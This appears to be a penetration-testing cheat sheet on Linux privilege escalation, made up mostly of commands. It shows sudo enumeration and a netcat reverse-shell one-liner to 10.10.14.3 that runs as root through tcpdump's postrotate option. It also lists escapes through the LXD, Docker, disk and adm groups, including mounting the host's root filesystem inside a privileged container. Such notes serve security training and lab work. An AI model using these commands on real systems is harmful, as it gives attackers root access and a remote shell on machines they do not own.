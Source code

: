 Sudo privileges allow running specific commands as root or other users. Misconfigurations can lead to privilege escalation through command options, PATH abuse, or unintended binary execution.

## Sudo Enumeration
- **List Sudo Privileges**: Shows commands current user can run with sudo.  
  `sudo -l`

## Tcpdump Abuse
- **Tcpdump Man Page**: Reviews tcpdump options for postrotate-command exploitation.  
  `man tcpdump | grep postrotate`
- **Create Reverse Shell**: Writes reverse shell script for tcpdump execution.  
  `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f' > /tmp/.test`
- **Execute via Tcpdump**: Runs tcpdump with postrotate-command to execute shell.  
  `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

# Privileged Groups

## LXC/LXD
- **Check LXD Group**: Verifies membership in lxd group for container privilege escalation.  
  `id`
- **Unzip Alpine Image**: Extracts Alpine Linux image for LXD container creation.  
  `unzip alpine.zip`
- **Initialize LXD**: Configures LXD environment for container management.  
  `lxd init`
- **Import Image**: Imports Alpine image into LXD for container creation.  
  `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`
- **Create Privileged Container**: Initializes privileged LXD container for host access.  
  `lxc init alpine r00t -c security.privileged=true`
- **Mount Host Filesystem**: Adds host root filesystem as device to container.  
  `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`
- **Start Container**: Launches LXD container for privileged access.  
  `lxc start r00t`
- **Execute Container Shell**: Spawns shell inside privileged container.  
  `lxc exec r00t /bin/sh`

## Docker
- **Docker Group Check**: Verifies docker group membership for container escalation.  
  `id | grep docker`
- **Mount Root Volume**: Creates Docker container with root directory mounted.  
  `docker run -v /root:/mnt -it ubuntu`

## Disk Group
- **Disk Group Access**: Uses debugfs to access filesystem with disk group privileges.  
  `debugfs /dev/sda1`

## ADM Group
- **ADM Group Check**: Verifies adm group membership for log file access.  
  `id | grep adm`
- **Read System Logs**: Accesses /var/log files with adm group privileges.  
  `cat /var/log/auth.log`
